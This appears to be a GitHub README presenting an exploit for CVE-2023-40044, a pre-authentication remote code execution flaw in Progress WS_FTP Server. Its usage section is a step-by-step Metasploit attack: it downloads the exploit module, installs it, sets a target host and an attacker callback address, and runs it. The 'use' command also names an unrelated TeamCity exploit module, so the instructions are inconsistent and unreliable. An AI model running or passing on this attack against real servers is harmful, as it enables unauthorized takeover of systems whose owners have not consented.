 # CVE-2023-40044

![](https://img.shields.io/static/v1?label=Product&message=Progress%20Software&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=prior%20to%208.7.4%20and%208.8.2&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:9.8.%20Remote%20Code%20Execution&color=red)

## Description

In WS_FTP Server versions prior to 8.7.4 and 8.8.2, a pre-authenticated attacker could leverage a .NET deserialization vulnerability in the Ad Hoc Transfer module to execute remote commands on the underlying WS_FTP Server operating system.   

### Usage

### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Progress_Software_WS_FTP_RCE/ws_ftp_rce_cve_2023_40044.rb
```
```
cp ws_ftp_rce_cve_2023_40044.rb /usr/share/metasploit-framework/modules/exploits/windows/http/ws_ftp_rce_cve_2023_40044.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```

